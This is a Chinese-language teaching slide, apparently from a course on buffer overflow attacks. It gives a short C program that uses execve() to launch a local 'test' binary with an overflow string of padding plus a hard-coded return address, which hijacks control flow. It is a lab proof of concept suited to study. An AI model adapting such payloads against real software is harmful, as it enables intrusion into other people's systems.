

二、缓冲区溢出攻击
由于无法从控制台直接输入ascii码，编写一个程序调用execve()系统函数，启动test可执行程序，并注入攻击字符串。

// exec.c
#include "stdio.h"
char code[] =
  "0123456789ABCDEF0123456789ab"
  "\xc5\x91\x04\x08"
  "x00";

int main(void)
{
  char *arg[3];
  arg [0] = "./test";
  arg[1] = code;
  arg[2] = NULL;
  execve(arg[0], arg, NULL);
  return 0;
}